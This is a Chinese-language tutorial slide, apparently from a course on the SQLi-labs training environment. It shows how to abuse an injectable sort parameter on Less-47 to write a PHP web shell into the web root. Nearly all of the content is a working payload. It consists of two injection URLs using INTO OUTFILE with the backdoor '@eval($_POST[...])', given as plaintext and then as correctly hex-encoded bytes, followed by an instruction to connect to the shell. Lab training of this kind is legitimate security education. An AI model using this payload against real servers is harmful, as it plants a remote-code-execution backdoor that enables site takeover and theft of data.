

# 补充_less46-49关其他用法_01
刚刚那样的写法之后：
你写的php里面并不含有一句话，正确的写法应该是这样的：

1. http://127.0.0.1/sqli/Less-47/?sort=1‘  into outfile ’C:\\phpstudy\\PHPTutorial\\WWW\\crow.php‘  lines terminated by 0x<?php @eval($_POST[’crow‘]);?> --+  我们将标红的部分进行十六进制转换
2. http://127.0.0.1/sqli/Less-47/?sort=1‘  into outfile ’C:\\phpstudy\\PHPTutorial\\WWW\\crow.php‘  lines terminated by 0x3c3f70687020406576616c28245f504f53545b2763726f77275d293b3f3e --+ 执行之后直接使用一句话木马进行连接！